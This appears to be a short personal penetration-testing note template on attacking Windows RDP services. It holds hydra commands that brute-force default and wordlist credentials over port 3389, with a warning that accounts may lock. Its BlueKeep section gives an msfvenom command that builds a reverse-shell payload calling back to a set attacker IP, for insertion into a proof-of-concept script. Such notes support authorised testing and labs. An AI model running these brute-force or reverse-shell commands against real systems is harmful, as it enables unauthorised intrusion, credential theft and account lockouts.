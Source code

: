 #service 
<% tp.file.rename("1_RDP_")%>
☑️
> Auch ms-wbt-server


## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/windows-betterdefaultpasslist.txt rdp://$hip -vV -t 1 -I -s 3389
```
	CAREFUL, likely to lock accounts!
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt rdp://$hip -V -t 4 -I -s 3389
```
## Connect to RDP
```bash
connect-windows $hip [$user] [$password]
```

## BlueKeep
<= Windows 7 or <= Windows Server 2008
Payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.206 LPORT=4545 -f py
```
Integrate it at `win7_32_poc.py` where it states "`# replace buf with your shellcode`"
> Currently still fails, a python dependency issue